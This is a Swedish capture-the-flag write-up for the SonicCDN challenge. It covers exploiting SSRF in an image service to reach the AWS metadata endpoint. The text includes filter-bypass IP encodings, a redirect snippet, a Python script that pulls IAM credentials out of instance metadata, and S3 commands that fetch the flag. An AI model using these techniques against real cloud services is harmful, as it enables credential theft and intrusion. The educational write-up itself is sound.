

# SonicCDN - Säkerhets SM Juli 2020

Denna applikation var månadens problem för [Säkerhets SM](https://monthly.sakerhetssm.se/) juli 2020. 

Hemsidan presenterade det fiktionella startup-bolaget SonicCDN vars tjänst modifierar bilder från internet. Målet är att exploatera tjänsten för att få en "flagga".


## TL;DR - Kort sammanfattning
Huvudsårbarheten i applikationen kallas ["server side request forgery" (SSRF)](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) och den uppstår då tjänsten laddar in bilder från internet. I Amazon Web Services, vilket är molnet som tjänsten körs på, så finns det alltid en [metadata-instans](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) som är tillgänglig till varje virtuell maskin. Då metadatan är tillgänglig över HTTP så kan man använda sig av SSRF-sårbarheten för att extrahera informationen. För att hitta flaggan måste man använda en API-nyckel från metadatan och begära ut flaggan från en S3 bucket.  


## Writeup

När vi går in på hemsidan så presenteras vi med en text kring tjänsten som innehåller några ledtrådar för utmaningen och en demonstration av tjänsten. Tanken är att tjänsten kan ändra bilder genom att först begära dem från en angiven URL och sedan presentera den för användaren.



Om vi studerar HTML-koden närmre så kan vi se hur man ber servern att hämta och ändra en bild. Genom att begära URL:en /image/{filter}/{bild_url} så hämtar servern bilden på den angivna bild-URL:en och applicerar de angivna filterna.

```html
<ul>
	<li>
		<h3>...</h3>
		
	</li>
	<li>
		<h3>...</h3>
		
	</li>
	<li>
		<h3>...</h3>
		
	</li>
</ul>
```  
Detta innebär inte bara att vi kan få servern att begära vilken bild som helst på internet, utan också att vi kan be servern att hämta saker som vi inte har tillgång till. Till exempel metadata-instansen!  

Låt oss testa att begära ut metadata. Instansen finns alltid på IP-adressen 169.254.169.254  

```
hacker@machine:~$ curl http://{server_ip}/image/watermark/http://169.254.169.254
{"error":"HAHA! Så dum är jag inte!"}
```  

Som vi ser fanns det ett skydd mot att direkt begära ut data från 169.254.169.254, men det går att kringgå!  

Vi kan...  
- Ange alternativa format
	- I decimal, `2852039166`
	- I hexadecimal, `0xa9.0xfe.0xa9.0xfe`
	- I oktal, `0251.0376.0251.0376`
	- I blandat format, `0xa9.254.169.0376`
	- Som IPv6, `[0:0:0:0:0:ffff:a9fe:a9fe]`
- Vidarebefordra till metadata-instansen via en extern server. Exempel: 
```php
<?php
header('Location: 169.254.169.254');
```
- Använda ett domän med en A-post som pekar mot 169.254.169.254 (finns rebind-tjänster som http://1u.ms/)

Huruvida det fungerar eller inte beror helt på hur skyddet är implementerat. I utmaningen så kollar programmet endast om strängen `169.254.169.254` finns i URL:en.  

Nu har vi några tillvägagångssätt att kringgå skyddet, låt oss fortsätta.  

```
hacker@machine:~$ curl http://{server_ip}/image/watermark/http://0251.0376.0251.0376
{"error":"Could not find MIME for Buffer <null>","buffer":{"type":"Buffer","data":[49,46,48,10,50,48,48,55,45,48,49,45,49,57,10,50,48,48,55,45,48,51,45,48,49,10,50,48,48,55,45,48,56,45,50,57,10,50,48,48,55,45,49,48,45,49,48,10,50,48,48,55,45,49,50,45,49,53,10,50,48,48,56,45,48,50,45,48,49,10,50,48,48,56,45,48,57,45,48,49,10,50,48,48,57,45,48,52,45,48,52,10,50,48,49,49,45,48,49,45,48,49,10,50,48,49,49,45,48,53,45,48,49,10,50,48,49,50,45,48,49,45,49,50,10,50,48,49,52,45,48,50,45,50,53,10,50,48,49,52,45,49,49,45,48,53,10,50,48,49,53,45,49,48,45,50,48,10,50,48,49,54,45,48,52,45,49,57,10,50,48,49,54,45,48,54,45,51,48,10,50,48,49,54,45,48,57,45,48,50,10,50,48,49,56,45,48,51,45,50,56,10,50,48,49,56,45,48,56,45,49,55,10,50,48,49,56,45,48,57,45,50,52,10,50,48,49,57,45,49,48,45,48,49,10,108,97,116,101,115,116]}}
```  
Servern verkar inte kunna tolka datan från metadata-instanser som en bild, men vi får ändå datan som ett array av bytes. Låt oss skriva ett litet skript för att få ut datan.  

```python
import requests

paths = []

def exfil():
	resp = requests.get('http://{server_ip}/image/watermark/http://0251.0376.0251.0376/' + '/'.join(paths))
	buffer = resp.json()['buffer']['data']
	print(''.join([chr(char) for char in buffer]))

while 1:
	exfil()
	path = input('\n' + '/'.join(paths) + ' ¤ cd ')
	for p in path.split('/'):
		if p == '..': 
			paths.pop()
		else:
			paths.append(p)
```  

Genom att köra skriptet och navigera runt i metadatan så hittar vi följande:  
```
hacker@machine:~$ py aws_meta_exfil.py
1.0
2007-01-19
2007-03-01
2007-08-29
2007-10-10
2007-12-15
2008-02-01
2008-09-01
2009-04-04
2011-01-01
2011-05-01
2012-01-12
2014-02-25
2014-11-05
2015-10-20
2016-04-19
2016-06-30
2016-09-02
2018-03-28
2018-08-17
2018-09-24
2019-10-01
latest

 ¤ cd latest
dynamic
meta-data

latest ¤ cd meta-data
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hibernation/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/

latest/meta-data ¤ cd iam
info
security-credentials/

latest/meta-data/iam ¤ cd security-credentials
flag_s3_reader_role

latest/meta-data/iam/security-credentials ¤ cd flag_s3_reader_role
{
  "Code" : "Success",
  "LastUpdated" : "2020-07-09T02:13:31Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : [REDACTED],
  "SecretAccessKey" : [REDACTED],
  "Token" : [REDACTED],
  "Expiration" : "2020-07-09T08:30:18Z"
}

latest/meta-data/iam/security-credentials/flag_s3_reader_role ¤ 
```  

Nu har vi API-nycklar för att hämta flaggan! Som rollnamnet avslöjar så ligger flaggan i en S3 bucket. Låt oss använda AWS-terminal-verktyget för att hämta ut den.  

```
hacker@machine:~$ aws s3 ls
2020-07-01 16:22:53 flag-bucket-soniccdn

hacker@machine:~$ aws s3 ls flag-bucket-soniccdn
2020-07-01 16:22:54         53 flag

hacker@machine:~$ aws s3 cp s3://flag-bucket-soniccdn/flag ./flag.txt
download: s3://flag-bucket-soniccdn/flag to ./flag.txt

hacker@machine:~$ cat flag.txt
SSM{...}

```  

Och där är flaggan! GGWP